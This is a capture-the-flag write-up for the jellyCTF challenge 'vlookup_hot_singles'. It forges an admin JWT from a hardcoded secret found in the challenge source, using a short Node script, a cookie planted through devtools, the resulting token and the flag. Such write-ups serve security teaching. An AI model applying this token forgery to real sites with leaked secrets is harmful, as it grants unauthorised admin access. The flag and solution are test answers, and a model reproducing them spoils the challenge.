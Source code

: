 # vlookup_hot_singles

## Difficulty

Easy

## Points Earned

100

## Description

> looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel
> 
> 50 point hint: what to do, but not how to do it
> 
> Author: arepi
> 
> https://vlookup-hot-singles.jellyc.tf/

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

## Solution

Forge a JWT to access the admin panel.

The source code gives us some hints about what the JWT should look like:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
 const sign = require('jwt-encode');
 const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
 const data = {
     user: "jelly"
 };
 const jwt = sign(data, secret);
 console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the `token` value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

## Flag

`jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`